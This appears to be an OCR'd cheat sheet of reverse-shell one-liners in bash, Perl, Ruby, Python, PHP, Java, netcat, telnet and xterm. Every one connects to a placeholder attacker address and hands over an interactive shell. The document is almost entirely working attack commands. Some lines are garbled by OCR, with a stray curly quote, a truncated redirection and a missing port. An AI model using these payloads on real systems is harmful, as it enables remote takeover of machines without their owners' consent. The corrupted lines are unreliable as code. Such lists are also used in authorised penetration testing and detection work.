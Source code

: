 /bin/bash -i > /dev/tcp/attackerip/8080 0<&1 2>&1
/bin/bash -i > /dev/tcp/X.X.X.X/443 0<&1 2>&1
PERL Reverse Shell
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

# for win platform
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};’
RUBY Reverse Shell
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

# for win platform
ruby -rsocket -e 'c=TCPSocket.new("attackerip","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
ruby -rsocket -e 'f=TCPSocket.open("attackerip","443").to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
PYTHON Reverse Shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attackerip",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
PHP Reverse Shell
php -r '$sock=fsockopen("attackerip",443);exec("/bin/sh -i <&3 >&3 2>&3");'
JAVA Reverse Shell
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/attackerip/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
NETCAT Reverse Shell
nc -e /bin/sh attackerip 4444
nc -e /bin/sh 192.168.37.10 443

# If the -e option is disabled, try this
# mknod backpipe p && nc attackerip 443 0<backpipe | /bin/bash 1>backpipe
/bin/sh | nc attackerip 443
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4443 0/tmp/

# If you have the wrong version of netcat installed, try
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attackerip >/tmp/f
TELNET Reverse Shell
# If netcat is not available or /dev/tcp
mknod backpipe p && telnet attackerip 443 0<backpipe | /bin/bash 1>backpipe
XTERM Reverse Shell
# Start an open X Server on your system (:1 – which listens on TCP port 6001)
apt-get install xnest
Xnest :1
